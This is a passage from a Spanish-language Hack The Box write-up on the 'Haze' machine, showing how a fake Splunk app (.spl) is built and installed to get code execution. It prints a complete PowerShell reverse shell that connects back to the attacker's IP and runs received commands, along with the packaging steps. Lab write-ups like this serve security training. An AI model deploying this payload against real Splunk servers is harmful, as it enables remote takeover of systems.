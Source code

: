 ![](assets/img/htb-writeup-haze/haze3_2.png)

La explotación se realiza mediante la carga de una aplicación falsa en formato `.spl`, que al ser instalada desencadena la ejecución del payload malicioso. Utilicé como base el repositorio [0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk), el cual proporciona una estructura de aplicación válida para Splunk con un payload integrado en PowerShell.

```terminal
/home/kali/Documents/htb/machines/haze/exploits:-$ git clone https://github.com/0xjpuff/reverse_shell_splunk.git
```

Reemplacé el contenido de `reverse_shell_splunk/bin/run.ps1` por un script en PowerShell que inicia una reverse shell hacia mi equipo.

```terminal
/home/kali/Documents/htb/machines/haze/exploits/reverse_shell_splunk:-$ echo '$LHOST = "10.10.16.75"; $LPORT = 443; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()' > reverse_shell_splunk/bin/run.ps1
```

Empaqueté la aplicación maliciosa con la extensión `.spl`, como espera el mecanismo de instalación de Splunk

```terminal
/home/kali/Documents/htb/machines/haze/exploits/reverse_shell_splunk:-$ tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunkreverse_shell_splunk/
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/run.ps1

/home/kali/Documents/htb/machines/haze/exploits/reverse_shell_splunk:-$ mv reverse_shell_splunk.tgz reverse_shell_splunk.spl
```
